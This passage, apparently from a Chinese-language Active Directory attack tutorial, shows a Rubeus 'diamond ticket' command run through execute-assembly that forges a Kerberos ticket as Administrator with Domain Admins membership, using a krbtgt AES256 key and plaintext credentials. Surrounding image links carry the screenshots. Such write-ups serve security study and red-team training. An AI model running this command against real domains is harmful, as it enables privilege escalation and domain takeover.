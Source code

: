 [![](assets/1707953845-912e856d8133b810863581bcd4450de2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040838-59b6d8aa-c462-1.png)

如果情况比较复杂，当前会话没有可用的 TGT，可以指定伪造的用户也可以显示指定用户名和密码，就不赘述了：

```plain
execute-assembly C:\tools\Rubeus.exe diamond /domain:endlessparadox.com /user:satoru /password:1QAZ2wsx123456 /dc:ad.endlessparadox.com /enctype:AES256 /krbkey:3a5ae89c92ae4f54b569ecfe622ea5c5b232c2fa8ad1d9b65e9ce07ef80e3d17 /ticketuser:Administrator /ticketuserid:500 /groups:512  /nowrap
```

[![](assets/1707953845-80b3284d8d38ec5829568024e50f32fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040853-627f4f12-c462-1.png)

